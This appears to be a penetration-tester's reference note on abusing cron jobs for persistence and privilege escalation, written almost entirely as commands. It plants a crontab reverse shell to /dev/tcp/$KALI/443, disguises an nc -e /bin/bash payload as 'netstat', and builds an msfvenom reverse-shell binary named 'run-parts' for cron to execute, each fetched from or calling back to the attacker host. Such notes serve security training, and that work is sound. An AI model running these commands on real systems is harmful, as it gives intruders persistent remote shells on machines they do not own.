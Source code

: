 #### Echo cron job

```bash - target
(crontab -l ; echo "* * * * * bash -i >& /dev/tcp/$KALI/443 0>&1 &") | crontab -
```

#### Example 1

![[Pasted image 20220225224851.png|1000]]

Target:
```bash - target
cd /dev/shm
```

Kali
```bash - kali
echo 'nc $KALI 443 -e /bin/bash' > netstat
```


![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

Target:
```bash - target
wget http://$KALI/netstat
```

```bash - target
chmod +x netsat
```

![[rlwrap]]

#### Example 2

![[Pasted image 20220302210353.png]]

![[Pasted image 20220302210759.png]]

```bash - kali
msfvenom -p linux/x64/shell_reverse_tcp LHOST=$KALI LPORT=3000 -f elf > run-parts
```

```bash - target
cd /usr/local/bin
```

```bash - target
wget http://$KALI:3000/run-parts
```

```bash - target
chmod +x /usr/local/bin/run-parts
```

```bash - kali
sudo rlwrap -cAr nc -lvnp 3000
```

Wait the 5 minutes for the code to run.